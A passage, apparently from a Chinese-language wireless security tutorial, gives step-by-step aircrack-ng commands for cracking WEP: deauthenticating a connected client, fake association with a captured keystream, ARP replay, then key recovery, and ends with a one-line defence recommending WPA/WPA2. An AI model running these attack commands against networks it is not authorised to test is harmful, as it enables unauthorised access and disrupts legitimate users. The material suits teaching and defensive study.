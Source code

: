 窗口一将一直显示最新的嗅探状态，获得与目标AP相连接的STA信息，并且实时保存所有嗅探到的数据包，此时我们的工作区可以切换到窗口二。

##### 窗口二

- 使用aireplay-ng的0号攻击模式，将任意一个与AP连接着的STA打掉线（AP的MAC地址通过窗口一运行着的airodump-ng获得）

```bash
# aireplay-ng -0 [攻击次数] -a [AP的MAC地址] -c [STA的MAC地址] wlan0mon

root@kali:~# aireplay-ng -0 10 -a 00:11:22:33:44:55 -c 55:44:33:22:11:00 wlan0mon
```

当STA重新与AP进行连接时，挑战应答中的随机数与被秘钥流加密的随机数将被窗口一运行中的airodump-ng捕获识别，并对二者进行异或运算，生成相应的xor文件保存在当前目录下。若此流程被顺利执行，则在窗口一中运行的airodump-ng的右上角则会提示捕捉到xor文件，这时可在窗口二中进行下一步：

- 使用aireplay-ng的1号攻击模式，使攻击机与AP建立关联（不认证），为后续可以成功的重放ARP请求做准备

```bash
# aireplay-ng -1 [重新关联时间(秒)] -e [AP的名称] -y [捕获的秘钥流文件] -a [AP的MAC地址] -h [本机的MAC地址] wlan0mon

root@kali:~# aireplay-ng -1 60 -e testwifi -y test-xx-xx-xx.tor -a 00:11:22:33:44:55 -h 11:22:33:44:55:66 wlan0mon
```

此时窗口二运行的aireplay-ng将会一直伪造本机与AP建立关联的数据包，工作区切换到窗口三

##### 窗口三

- 使用aireplay-ng的3号攻击模式，等待捕获合法的ARP请求，捕获后自动重放

```bash
# aireplay-ng -3 -b [AP的MAC地址] -h [本机的MAC地址] wlan0mon

root@kali:~# aireplay-ng -3 -b 00:11:22:33:44:55 -h 11:22:33:44:55:66 wlan0mon
```

此时窗口三运行的aireplay-ng将会一直在识别是否捕获到合法的ARP数据包，工作区切换到窗口四

##### 窗口四

- 为了让窗口三中的aireplay-ng捕获到合法的ARP数据包，继续使用aireplay-ng的0号攻击模式将STA打掉线

```bash
# aireplay-ng -0 [攻击次数] -a [AP的MAC地址] -c [STA的MAC地址] wlan0mon

root@kali:~# aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 55:44:33:22:11:00 wlan0mon
```

- 当STA与AP重新关联并认证时，可见窗口三种捕获到合法ARP请求，开始重放。同时也可见窗口一种的DATA字段的数值在快速的增长，当DATA的值大于一定数量时（5w+就差不多），即可使用aircrack-ng破解密码：

```bash
root@kali:~# aircrack-ng test-01.cap
```

#### 防御

采用高强度密码的WPA/WPA2安全机制，不要采取WEP安全机制

### 破解密码——WPA/WPA2
